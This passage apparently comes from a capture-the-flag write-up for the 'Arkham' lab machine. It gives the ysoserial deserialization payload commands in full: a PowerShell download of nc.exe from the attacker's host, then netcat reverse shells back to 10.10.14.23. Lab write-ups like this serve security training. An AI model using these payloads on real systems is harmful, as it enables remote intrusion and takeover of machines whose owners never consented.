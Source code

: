 To get a reverse shell, I'll generate a payload that downloads netcat from my machine and store in it c:\programdata. I'm a fan of using netcat whenever possible for these types of challenges so I don't need to debug Powershell payloads, etc. It's certainly not stealthy or elegant but it's good enough for me here.

```
# python boom.py http://10.10.10.130:8080/userSubscribe.faces "powershell -command \\\"Invoke-WebRequest -Uri http://10.10.14.23/nc.exe -outfile \\programdata\\nc.exe\\\"" SnNGOTg3Ni0=
[*] Payload provided: powershell -command \"Invoke-WebRequest -Uri http://10.10.14.23/nc.exe -outfile \programdata\nc.exe\"
[*] Generating the payload with: java -jar ./ysoserial.jar CommonsCollections6 "powershell -command \"Invoke-WebRequest -Uri http://10.10.14.23/nc.exe -outfile \programdata\nc.exe\"" > payload.bin
WARNING: An illegal reflective access operation has occurred
WARNING: Illegal reflective access by ysoserial.payloads.CommonsCollections6 (file:/root/htb/arkham/ysoserial.jar) to field java.util.HashSet.map
WARNING: Please consider reporting this to the maintainers of ysoserial.payloads.CommonsCollections6
WARNING: Use --illegal-access=warn to enable warnings of further illegal reflective access operations
WARNING: All illegal access operations will be denied in a future release
[*] Payload was written to payload.bin, reading it into variable...
[*] Length of payload: 1372 bytes
[*] Sending encoded payload: EpflyBhnLkAS/cI6nexhMqH/tMmK+e+oOSB+iGGStMf3iTfxuPA5PGNGhz6HO2nAZeudvUiuJvqiPb69whWbK2/EFMRkmhTDywwZ5O1KTeC46zdFOsXfLYOq+MjjY+tkAaxKM5Zb/
[...]
[+] Done!
```

The server retrieves the file from my VM:

```
# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.130 - - [17/Mar/2019 00:11:35] "GET /nc.exe HTTP/1.1" 200 -
```

Then I can execute netcat and get a shell:

```
# python boom.py http://10.10.10.130:8080/userSubscribe.faces "\\programdata\\nc.exe -e cmd.exe 10.10.14.23 4444" SnNGOTg3Ni0=
[*] Payload provided: \programdata\nc.exe -e cmd.exe 10.10.14.23 4444
[*] Generating the payload with: java -jar ./ysoserial.jar CommonsCollections6 "\programdata\nc.exe -e cmd.exe 10.10.14.23 4444" > payload.bin
WARNING: An illegal reflective access operation has occurred
WARNING: Illegal reflective access by ysoserial.payloads.CommonsCollections6 (file:/root/htb/arkham/ysoserial.jar) to field java.util.HashSet.map
WARNING: Please consider reporting this to the maintainers of ysoserial.payloads.CommonsCollections6
WARNING: Use --illegal-access=warn to enable warnings of further illegal reflective access operations
WARNING: All illegal access operations will be denied in a future release
[*] Payload was written to payload.bin, reading it into variable...
[*] Length of payload: 1320 bytes
[*] Sending encoded payload: EpflyBhnLkAS/cI6nexhMqH/tMmK+e+oOSB+iGGStMf3iTfxuPA5PGNGhz6HO2nAZeudvUiuJvqiPb69whWbK2/EFMRkmhTDywwZ5O1KTeC46zdFOsXfLYOq+MjjY+tkAaxKM5Zb/
[...]
[+] Done!
```


[arkham]: PS C:\Users\Batman\Documents>
[arkham]: PS C:\Users\Batman\Documents> cd ..
[arkham]: PS C:\Users\Batman\Documents> whoami
[arkham]: PS C:\Users\Batman\Documents> cd \users\administrator\desktop
[arkham]: PS C:\Users\Batman\Documents> c:\programdata\nc.exe -e cmd.exe 10.10.14.23 6666